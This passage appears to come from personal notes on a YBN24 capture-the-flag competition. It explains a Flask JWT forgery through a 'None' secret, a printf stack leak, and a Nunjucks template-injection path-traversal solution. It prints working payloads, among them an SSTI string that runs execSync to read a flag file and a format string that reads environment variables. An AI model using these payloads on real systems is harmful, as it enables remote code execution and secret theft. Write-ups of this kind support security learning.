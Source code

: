 ```python
	db = sqlite3.connect('secrets.db')  
	db.row_factory = lambda cursor, row: row[0]  
	cursor = db.cursor()
	sql = "SELECT secret FROM secrets WHERE uuid = ?"  
	cursor.execute(sql, (uuid,))
	secret = str(cursor.fetchone()) # <--
	...
```
Here, the result from the query is being cast to a string. This is usually not required, as a row should be returned as a string anyways. However, if the uuid queried were to not exist, the returned `None` would be cast into a string `"None"`, thus returning the secret as `"None"`. By forging a session token with a non-existent uuid, we are able to sign jwt tokens with `"None"`.
![[Pasted image 20241202215911.png]]
The final step is to access `/admin`, giving us the flag
![[Pasted image 20241202220039.png]]
`YBN24{8@ba_!S_A_B@d_PRo6rAmm3R}`
> It should be mentioned a team managed to find a way to gain an invalid uuid without leaking the flask secret. After the session uuid is set and before the secret is saved, there is a check to ensure the command prefix is valid. If the prefix was invalid, only the uuid is saved and the function returns, hence generating an "invalid" uuid.
> ![[Pasted image 20241202233419.png]]
> You can also leak the flag from the format string itself
> ```
> {response.init.globals[os].environ[FLAG]}
> ```

## Needle in a haystack
#langs/c
TODO. This is more for personal use. Using `printf()` with user supplied input is dangerous as it allows memory in the stack to be leaked. We use `%<n>$s` here to brute force leaking the flag from the stack, where n is some number. I have yet to figure out how `printf()` calculates its offsets/addresses to read from based on the number we supply and the potential data types of varying arguments before the nth one. 
`YBN24{FL4G_1N_4_ST4CK_XDDDDDD}`

# Post ctf lessons
## Pickup Artist (Finals chal, solved)
#langs/javascript
It is possible to traverse up a directory from a file, e.g. (`public/fileA/../secretFolder/secret.txt`)
Basically persisting your payload and having control over the postfix of a filename allows for SSTI through directory traversal.
Make payload: The filename consists of the payload hash + the first 10 characters of the payload. Hence, we are able to specify the file extension
```json
{
	"pickup": "123456.njk{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /usr/src/app/flag.txt')\")()}}",
	"pickupNum": 1
}
```
Running the payload:
```json
{
	"pickup": "anything",
	"pickupNum": "1.njk/../../user_compliments/d3854df80759d071024bdd025b1bc6d8_123456"
}
```
The server searches for `pickup{pickupNum}.njk`, hence the need to specify the njk file extension in the payload. 